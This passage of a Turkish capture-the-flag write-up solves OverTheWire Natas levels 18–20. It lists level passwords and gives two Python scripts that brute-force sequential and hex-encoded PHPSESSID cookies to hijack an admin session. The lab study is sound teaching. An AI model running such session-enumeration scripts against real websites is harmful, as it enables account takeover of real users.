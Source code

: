 ```text
natas18: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

## Level 18 -> Level 19

Bu seviyedeki php kodunu incelediğimizde `$_SESSION["admin"]` değerini php kodu içinden değiştirmek mümkün değil. Bu yüzden başka bir yol izlememiz gerekiyor. Php sessionlar ile ilgili daha ayrıntılı bilgiyi [buradan](http://php.net/manual/tr/intro.session.php) bulabilirsiniz.

Toplamda 640 tane session var ve bunlardan biri admin için ayrılmış olmak zorunda. Bu yüzden tek yapmamız gereken admine ait session değerini bulmak. Bunu tek tek cookie değerini değiştirerek yapabiliriz. Bunun için 10 satırlık bir python scripti hazırladım. tek yaptığım şey session değerini 640 a kadar denemek. İşte script:

```python
import requests
from requests.auth import HTTPBasicAuth

Auth = HTTPBasicAuth("natas18", "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP")
for _i in range(640):  # 0 dan 640 a kadar olan bütün session ları dene
    r = requests.get("http://natas18.natas.labs.overthewire.org/index.php?debug", auth=Auth, cookies={"PHPSESSID": str(_i)})
    if not "regular" in r.text:  # eğer admin sağlanırsa işlem bitti.
        print("found: ", _i)
        continue
    print(_i)
```

Natas 19 için şifre:

```text
natas19: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

## Level 19 -> Level 20

Bu seviyede session değerlerinin sıralı olmadığını söylüyor. Zaten cookie değerlerini incelediğimizde (defalarca kez giriş yaparak) bunu farkedebiliriz.

Cookileri biraz daha dikkatli incelersek değerlerin a-f ve 0-9 arasında değiştiğini görürüz. o zaman bu bir hex olabilir. İnternetten herhangi bir "hex to text" dönüşümü yapan bir siteye girip cookie değerini hex den text e dönüştürdüğünüzde "123-kullaniciadi" biçiminde '-' karakteri ile ayrılmış şekilde bir sayı ve girdiğimiz kullanıcı adını görürüz. Buradaki sayı 0 ile 640 arasında olacak. O zaman yapmamız gereken tek şey buradaki sayı değerlerini değiştirip hex dönüşümü yaparak cookie değerlerini değiştirmek. Bu iş için basit bir python scripti:

```python
import requests
from requests.auth import HTTPBasicAuth

Auth = HTTPBasicAuth("natas19", "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs")
for _i in range(640):
    ses = str(_i)+"-admin"  # hex dönüşümü için text hazırla
    session = ses.encode("utf-8").hex()  # metni hexe dönüştür.
    r = requests.post("http://natas19.natas.labs.overthewire.org/index.php?debug", auth=Auth,
                    cookies={"PHPSESSID": session}, headers={"Content-Type":"application/x-www-form-urlencoded"}, data={"username":"admin", "password":"admin"})  # bilgileri gir ve cookie değerine bulduğumuz hex değerini gir.
    if not "regular" in r.text:
        print("found: ", session)  # admin için cookie session değerini göster.
        break
    print(session)
```


[1]: (http://natas5.natas.labs.overthewire.org)
[2]: (http://natas6.natas.labs.overthewire.org/includes/secret.inc)
[3]: (http://bilgisayarkavramlari.sadievrenseker.com/2009/04/20/yahut-sifrelemesi-xor-encryption/)
[4]: (http://www.wiki-zero.co/index.php?q=aHR0cHM6Ly9lbi53aWtpcGVkaWEub3JnL3dpa2kvS25vd24tcGxhaW50ZXh0X2F0dGFjaw)
[5]: https://stackoverflow.com/questions/18357095/how-to-bypass-the-exif-imagetype-function-to-upload-php-code